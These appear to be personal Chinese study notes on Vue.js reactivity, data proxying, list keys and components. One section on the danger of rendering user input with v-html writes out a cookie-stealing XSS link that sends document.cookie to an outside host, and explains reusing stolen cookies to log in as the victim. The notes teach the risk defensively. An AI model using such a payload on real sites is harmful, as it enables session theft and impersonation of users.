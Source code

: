 # Vue学习注意点
## 1、.ico图标文件
- 要放在最外层的包下，
- live-server是把整个包放到本地服务器中的

## 2、
- 实现过程：把容器中的模版交给Vue实例，进行解析，解析完后，把数据挂载到页面的指定位置上去
- ![MVVM](image.png)
- 两个箭头对应【双向数据绑定】
- 1、下面的箭头M->V：数据流向页面
- 2、上面的箭头V->M：页面流向数据，实现对页面元素的监听(input输入框的修改)
- VM是连接V和M的桥梁，就是Vue实例对象
- ![图示理解](image-1.png)


## 3、数据代理图示：
第一个箭头只是把data对象中的数据传给vm的_data(二者是同一个对象；此操作不是数据代理)
第二个箭头才是数据代理(把_data中的两个属性给到vm对象，通过getter和setter进行读/写)
![数据代理](image-2.png)




## 4、事务
- 模版中用到的数据(属性和函数)，只能用在Vue实例中配置过的；不能使用未在Vue实例中配置的数据(属性和函数)

模版中用到的data中的数据发生修改时，会重新解析一遍模版

data中的数据都是Vue的属性

vm的_data中的属性就是配置项data中的属性
计算属性是拿着_data中的属性进行计算，计算完后直接丢给vm对象的（而不会再_data中有计算属性）


JS对象
简写：
methods:{

}
完整：（键应该要用 字符串 ）
"methods":{

}

错误：
number.a:{

}
正确：
"number.a":{

}


# list：
- 通过for生成多个标签，必须通过key给每个标签打一个标识(:key="p.id")
- key属性被Vue内部使用，不会显示在最终的html结构中

# key：
- 用户输入的信息是在真实DOM中的，而不是在虚拟DOM中
  - 真实DOM：是页面中用户可以交互的
  - 虚拟DOM：是在内存中的，由Vue管理，用户碰不到的

![index作为key](image-5.png)
只有3个input框可以复用，但是是根据key值(index)复用的
前插老刘后，每个li的index值变了，老刘的key变为了0，所以它获得了原来0号li中的input标签(及其中残留的内容)
本质是因为：前插打乱了各个li的key的顺序
后插就没事
![p.id作为key](image-6.png)

不显示写key，默认为index


# filter
"周杰伦".indexOf("")
不是-1，而是0
- 知识点：任何一个字符串包含空字符串"""


# 修改与刷新的流程：
- 修改vm中的name属性，会触发vm中(服务于name)的setter函数(vm对.vm_data的数据代理——>proxySetter())，
- 进而去修改vm._data中的name属性，又会触发vm._data中(服务于name)的setter函数(响应式——>reactiveSetter())，
- 进而去重新解析模版（即更新页面数据）

vm._data中的数据是由data配置项经过加工传过来的(reactiveSetter(),reactiveGetter())
vm中的属性是由vm._data进行数据代理得到的(proxySetter(),proxyGetter)()


对数组的检测实际是靠包装数组身上的常用修改数组的方法实现的
数组归Vue管理，身上本身的push不再使用，而使用Vue包装过的push（多加了一个重新解析模版的功能——实现更新页面数据）

<!-- 数组索引没有get set, 但是索引里边的对象有get set, 所以修改数组索引下的属性是可以的 -->


数组本身是有getter和setter的
数组中的元素本身没有getter和setter；但是数组中元素的属性(若元素是对象类型的话)有自己的getter和setter
①所以通过索引直接替换掉整个对象元素，不会被Vue监测；
- vm.student.friends[0]={name:"张三",age:"20"}
- 但是通过索引取出数组中的某个元素(对象类型)，修改它的属性，是会被Vue监测到的（因为它有自己的getter和setter）
②由于数组本身是有getter和setter的，只有通过指定的数组函数，对数组进行修改时，才会被Vue监测到
- vm.student.friends.splice(0,1,{name:"张三",age:"20"})

![数组元素是字符串](image-8.png)

![数组元素是对象](image-7.png)

【数据劫持】
把data中的数据经过加工放到vm._data中
- 加工：遍历一遍data中的所有属性（属性的属性……），给他们都加上getter和setter
- 当vm._data中的属性发生修改时，会调用setter函数（数据劫持）
- 完成两件事：
  - 1.修改数据
  - 2.重新解析模版，进而更新页面

若不给vm._data中的属性都加上setter函数，则无法实现【响应式】
- 即：vm._data中的属性发生修改时，不会被Vue监视到，(不调用setter函数)，因此不会去重新解析模版，页面数据不会同步更新

数据代理、数据劫持用的都是:
- Object.defineProperty(target,property,val){
  }


v-model收集输入框的value属性值
阻止点击提交按钮，表单的默认行为（页面跳转）
- <form @submit.prevent="func">

读取年龄的注意点：（两个number的用法，同时使用）
- 1、只能读数字：添加type="number"
- 2、读到的默认是字符串，要转换为数字：v-model.number



![Cookie](image-9.png)
浏览器向服务器发送登录请求时，请求成功后，服务器会返回一些Cookie，保存在浏览器中(一些身份信息；string类型；key:value结构)
浏览器按照网站对收到的Cookie进行分类
不同浏览器之间不能共享Cookie


若把用户的输入用v-html进行显示，可能会发生安全性问题
如下：若坏人在输入框提交了如下字符串，被浏览器用v-html动态解析成了a标签，显示在页面上；
其他用户看到后进行了a标签，则这个用户的在这个网站的所有Cookie都会被读取，然后以请求参数的形式发送到坏人在a标签中指定的服务器中，则坏人拿到了这个用户在这个网站的所有Cookie(相当于账号密码信息)，就可以冒充这个用户登录该网站！
- 在浏览器中导入该用户在该网站的所有Cookie(使用Cookie Editor——Google Plugins)，刷新网页，即可登录

- 有的服务器比较完善，会设置某些Cookie只能通过Http协议携带 和 读取(HttpOnly)
- 而不允许直接通过JS的document.cookie直接获取网站的所有Cookie，就相对安全

坏人的输入：
<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>



注意点：
template中只能有一个标签，
- 所以要用<div></div>包装一下

组件的data必须写成函数式
- 因为只有这样每次取用data中的属性时，返回的对象的地址都是不同的
- 为了组件复用时，组件内的data属性在所有用法处互相独立，互不干扰
必须写成函数是因为函数每次调用都返回新的对象，不然每次调用都指向同一个对象会导致改了一个另个也跟着变

{
  student:student
}
可简写为：(ES6新特性)
{
  student
}

Vue.extend()可以不写
但是底层会做判断，若components中的传入的对象是普通对象，最终还是会由Vue底层去调用

子组件若只在父组件中注册，则不能直接在vm指定的容器中使用，只能在在父组件的template配置中使用

vm->app(组件)->各种组件
![app](image-10.png)

- app领导众多组件，vm只需要领导app这一个组件

为了标准化开发
app一人之下万人之上

父组件的$children属性中存子组件
![vm与vc的关系](image-11.png)

配置对象options vc和vm基本一样
- 区别1：el，只有根实例vm能指定为哪个容器服务
- 区别2：vc中的data只能写函数式
